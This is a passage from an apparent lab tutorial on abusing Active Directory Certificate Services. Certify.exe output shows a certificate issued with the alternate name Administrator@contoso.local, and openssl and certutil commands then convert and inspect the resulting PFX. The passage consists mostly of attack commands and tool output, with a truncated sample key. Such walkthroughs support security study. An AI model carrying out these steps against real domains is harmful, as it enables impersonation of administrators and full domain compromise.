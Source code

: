 ```
[*] AltName                 : Administrator@contoso.local

[*] Certificate Authority   : ca01.contoso.local\contoso-ca01-ca

[*] CA Response             : The certificate had been issued.
[*] Request ID              : 24

[*] cert.pem         :

-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA3hjP7WuFNVeHYRtKvsZzYBdZ1sshFXuZ5sWc/cByci3hw+KD

--snip--

zMvpKPu7qAMxd83cnK0YDJW6JHHdJYfJKEkDOGKRLmKy3pAVmZGrhA==
-----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
MIIGATCCBOmgAwIBAgITYAAAABhIrlHkiGiNxAAAAAAAGDANBgkqhkiG9w0BAQsF

--snip--

zilBjRs=
-----END CERTIFICATE-----


[*] Convert with: openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx



Certify completed in 00:00:03.8813593

C:\Tools>
```

Then, we convert the pem output to pfx format with the `openssl` command in output of `Certify.exe` (we set the password to "123456" in this article):

```bash
user@ubuntu:~/Desktop$ openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out admin.pfx
Enter Export Password:
Verifying - Enter Export Password:
user@ubuntu:~/Desktop$
```

If you want to check certificate informations, you can check it with `certutil.exe` as follows:

```
C:\Tools>certutil -v -dump admin.pfx
Enter PFX password:
================ Certificate 0 ================
================ Begin Nesting Level 1 ================
Element 0:
X509 Certificate:
Version: 3
Serial Number: 600000001848ae51e488688dc4000000000018
Signature Algorithm:
    Algorithm ObjectId: 1.2.840.113549.1.1.11 sha256RSA
    Algorithm Parameters:
    05 00
Issuer:
    CN=contoso-CA01-CA
    DC=contoso
    DC=local
```